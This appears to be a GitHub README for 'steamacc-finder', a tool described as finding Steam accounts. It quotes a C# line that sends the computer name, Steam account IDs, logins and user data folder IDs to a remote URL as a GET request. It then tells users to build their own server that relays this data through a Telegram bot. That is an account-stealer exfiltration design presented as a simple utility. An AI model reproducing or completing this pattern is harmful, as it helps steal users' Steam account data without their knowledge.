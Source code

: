 # steamacc-finder
A simple client for finding a list of Steam accounts

# Important:

This release does not contain a native web server that is being used in this line:

```string url = $"http://example.com/api.php?computername={computerName}&perm_account_id={permAccountIdsString}&acc_login={accountLoginsString}&acc_ids={userDataFoldersString}&license_key={unique_key}";```

Make own by yourself, just parse this GET request and sens it via telegram bot.

# License:

This code uses GNU Affero General Public License v3.0 

Learn more: https://github.com/handwerk2016/steamacc-finder/blob/main/LICENSE
